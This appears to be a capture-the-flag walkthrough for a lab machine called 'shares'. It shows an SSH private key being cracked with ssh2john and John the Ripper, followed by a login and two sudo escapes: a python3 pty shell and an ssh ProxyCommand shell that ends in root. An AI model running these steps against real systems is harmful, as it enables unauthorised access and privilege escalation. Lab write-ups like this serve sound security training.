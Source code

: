 ```
./.ssh
./.ssh/id_rsa.bak
./.ssh/id_rsa
./.ssh/id_rsa.pub
./.ssh/authorized_keys
```

### SSH
```
Use ssh2john to create a hash that we can crack for the password to the key:
/opt/JohnTheRipper/run/ssh2john.py id_rsa > ~/ctf/cyberseclab/beginner/shares/hash

Find the password with john and rockyou.txt wordlist: hello6 


Connect via the ssh port:
ssh -i id_rsa amir@172.31.1.7 -p 27853
```

### Priv esc
```
amir@shares:~$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3

We can exploit python3 here to spawn a shell:

sudo -u amy python3 -c "import pty;pty.spawn('/bin/bash')"
```
Now onto amy priv esc:
```
amy@shares:~$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh

We can exploit sudo ssh with the command:


amy@shares:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```
